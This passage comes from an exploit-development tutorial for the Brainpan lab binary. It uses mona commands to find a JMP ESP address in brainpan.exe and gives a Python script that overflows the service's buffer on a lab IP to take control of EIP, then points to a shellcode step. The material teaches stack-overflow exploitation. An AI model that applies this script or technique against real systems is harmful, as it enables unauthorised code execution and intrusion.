

# Finding the right module

We are going to check for ``dll`` or something comparable in the ``brainpan.exe`` that does not have memory protection settings. Again, ``mona`` can help to find the right module Using the following command, we can list all the module in ``brainpan.exe``

```cli
!module modules
```



As we can see in the screenshot above, all the ``dll`` have memory protect. ``brainpan.exe`` does not have the memory protection, thus it is our right module. Next, we should find an opcode equivalent of a ``JMP ESP``. To do that, we need to use the ``Metasploit`` module.


From the screenshot above, we can see the opcode is ``FFE4``. We need to find memory address  with ``FFE4`` (JMP ESP) opcode in ``brainpan.exe`` using ``mona``. We can use the following command in ``mona``:

```cli
!mona find -s "\xff\xe4" -m brainpan.exe
```


As we can see on the screenshot above, we can see the memory address with ``JMP ESP`` opcode is ``311712F3``. Now we need to be able to control the ``EIP``. We need to put a breakpoint on ``311712F3`` address in ``Immunity Debugger``, overflow the buffer and place ``311712F3`` in ``EIP`` to see if our breakpoint will be hit. Now, we can modify our python script and add the return address that we noted in the reverse order ("\xf3\x12\x17\x31"). I created another script called [brainpan_jmp_esp.py](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/resources/brainpan_jmp_esp.py)

```python
#!/usr/bin/python3
import sys
import socket
from time import sleep

# our JMP ESP address is at  0x311712f3

buffer = b"A" * 510 + b"\xf3\x12\x17\x31"

while True:
    try:
        sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sock.connect(('192.168.10.4', 9999))
        payload = b'shitstorm /.:/' + buffer
        sock.send(payload)
        sock.close()
    except:
        print("Error connecting to the server")
        sys.exit()
```

``Immunity Debugger`` hits directly our breakpoint after running the above script and pause the execution since we have an access violation error notification.


As we can see in the screenshot, we hit our breakpoint, means that we have full control over the ``EIP`` and can run any shell code to compromise our target machine.

___

Next to [Generating Shellcode](https://github.com/cris-m/buffer_overflow_exploit_development/blob/main/assets/documentations/shellcode.md)
